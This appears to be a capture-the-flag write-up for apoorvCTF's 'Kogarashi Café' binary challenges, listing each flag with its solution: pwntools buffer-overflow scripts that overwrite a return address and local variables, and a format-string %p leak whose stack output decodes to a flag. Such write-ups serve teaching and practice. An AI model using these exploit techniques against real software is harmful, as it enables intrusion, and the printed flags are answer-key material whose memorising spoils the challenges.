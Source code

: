# Binary Exploitation

## Challenge: Kogarashi Café - The First Visit

### Flag: apoorvctf{c0ffee_buff3r_sp1ll}

Solution:

```python
from pwn import *
p = remote("chals1.apoorvctf.xyz", 3001)  # Connect to challenge server
brew_coffee_addr = 0x0804856b  # Address of brew_coffee()
ret_gadget = 0x080483d0  # Optional "ret" instruction (stack alignment)
payload = b"A" * 40  # Fill buffer
payload += p32(ret_gadget)  # Optional ret gadget (for alignment)
payload += p32(brew_coffee_addr)  # Overwrite return address
p.sendline(payload)  # Send exploit payload
print(p.recvall().decode(errors="ignore"))  # Receive flag output
p.close()
```

## Challenge: Kogarashi Café - The Secret Blend

### Flag: apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}

Solution:

```bash
┌──(myenv)─(glutton㉿glutton)-[~/CTF/apoorvCTF/files]
└─$ nc chals1.apoorvctf.xyz 3003 
Welcome to Kogarashi Café.
Barista: 'What will you have?'
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p          
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x5b8481 0xfbad2288 0xffa47b7f 0x5b84b0 (nil) 0x746376726f6f7061
 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 
 0x7d646c7530 0x404050 0x7f29c379f5e0 0x7025207025207025 0x2520702520702520 
 0x2070252070252070
```

now `0x746376726f6f7061 0x334d5f3368547b66 0x736b34334c5f756e 0x68545f6572304d5f 0x68535f74495f6e61 0x7d646c7530` reversing these and unhexing in cyberchef we get flag

## Challenge: Kogarashi Café - The Forbidden Recipe

### Flag: apoorvctf{d3caf_is_bad_f0r_0verfl0ws}

Solution:

```python
from pwn import *

# Remote connection to CTF challenge
p = remote("chals1.apoorvctf.xyz", 3002)

# Construct payload
payload = b"A" * 32          # Fill buffer
payload += p32(0xdecafbad)   # Overwrite local_14
payload += p32(0x00c0ff33)   # Overwrite local_10

# Send payload
p.sendline(payload)

```